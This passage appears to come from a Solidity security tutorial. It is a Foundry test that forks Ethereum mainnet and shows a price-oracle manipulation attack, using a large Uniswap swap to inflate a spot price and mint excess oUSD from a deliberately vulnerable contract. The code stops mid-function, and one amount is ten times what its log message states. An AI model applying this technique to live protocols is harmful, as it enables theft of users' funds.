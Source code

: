 Attack Code:

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.21;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // Specify the forked block
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // Attack the oracle
        // 0. Get the price before manipulating the oracle
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // Give yourself 1,000,000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. Buy WETH with BUSD to manipulate the oracle
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. Get the price after manipulating the oracle
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. Mint oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18);
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

```